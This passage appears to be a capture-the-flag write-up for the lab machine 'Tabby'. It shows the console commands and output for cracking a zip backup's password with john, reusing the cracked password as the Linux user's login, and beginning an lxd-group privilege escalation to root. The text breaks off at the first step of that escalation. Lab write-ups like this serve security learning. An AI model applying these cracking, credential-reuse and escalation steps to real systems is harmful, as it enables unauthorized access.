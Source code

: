 - john to crack -> `admin@it`

```console
└─╼$ zip2john backup.zip > hash
...

└─╼$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:01 DONE (2024-01-23 05:57) 0.6250g/s 6476Kp/s 6476Kc/s 6476KC/s aer35rea..adhi1411
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

└─╼$ unzip backup.zip
Archive:  backup.zip
   creating: var/www/html/assets/
[backup.zip] var/www/html/favicon.ico password:
  inflating: var/www/html/favicon.ico
   creating: var/www/html/files/
  inflating: var/www/html/index.php
 extracting: var/www/html/logo.png
  inflating: var/www/html/news.php
  inflating: var/www/html/Readme.txt
```

- nothing inside unzipped dir, this password can be reused -> linux user password also

```console
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

### ash -> root

- id -> **group**: `lxd`

- [lxd/lxc Group - Privilege escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-2)

In Linux systems, `lxd` is a lightweight container management tool that extends the LXC (Linux Containers) technology. `lxd` offers a more user-friendly way to manage LXC containers, including advanced networking and storage features, while maintaining API compatibility with LXC.

When we talk about the "lxd group" on Linux, we are usually referring to a specific user group on the system, whose members are authorized to manage LXD containers. In many Linux distributions, a system group named `lxd` is automatically created upon the installation of LXD, and any user who is part of this group can manage LXD containers without needing to use `sudo`.

**Exploit Procedure**:

1. git clone repo on the local host -> zip the repo

```console
└─╼$ zip lxd-alpine-builder.zip lxd-alpine-builder/*
  adding: lxd-alpine-builder/alpine-v3.13-x86_64-20210218_0139.tar.gz (deflated 1%)
  adding: lxd-alpine-builder/build-alpine (deflated 62%)
  adding: lxd-alpine-builder/LICENSE (deflated 65%)
  adding: lxd-alpine-builder/README.md (deflated 41%)
```
